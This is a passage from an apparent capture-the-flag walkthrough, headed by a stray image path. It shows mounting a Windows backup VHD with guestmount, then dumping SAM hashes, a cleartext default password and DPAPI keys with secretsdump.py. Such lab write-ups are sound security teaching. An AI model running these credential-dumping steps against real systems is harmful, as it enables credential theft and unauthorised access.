 ```

root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount: no operating system was found on this disk

If using guestfish ‘-i’ option, remove this option and instead
use the commands ‘run’ followed by ‘list-filesystems’.
You can then mount filesystems you want by hand using the
‘mount’ or ‘mount-ro’ command.

If using guestmount ‘-i’, remove this option and choose the
filesystem(s) you want to see by manually adding ‘-m’ option(s).
Use ‘virt-filesystems’ to see what filesystems are available.

If using other virt tools, this disk image won’t work
with these tools.  Use the guestfish equivalent commands
(see the virt tool manual page).

```

The second one works, providing access to what looks like a Windows file system root:

```

root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
root@kali# ls /mnt2/
'$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows

```

## Shell as l4mpje

### Dump Hashes From Registry

With full access to the file system, I have access to the registry files. These files can be locked when the system is running, but I won’t have that issue on a mounted drive. In the `config` directory where the registry hives are stored, I’ll use `secretsdump.py` to dump the password hashes:

```

root@kali:/mnt2/Windows/System32/config# secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:e4487d0421e6611a364a5028467e053c:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up... 

```
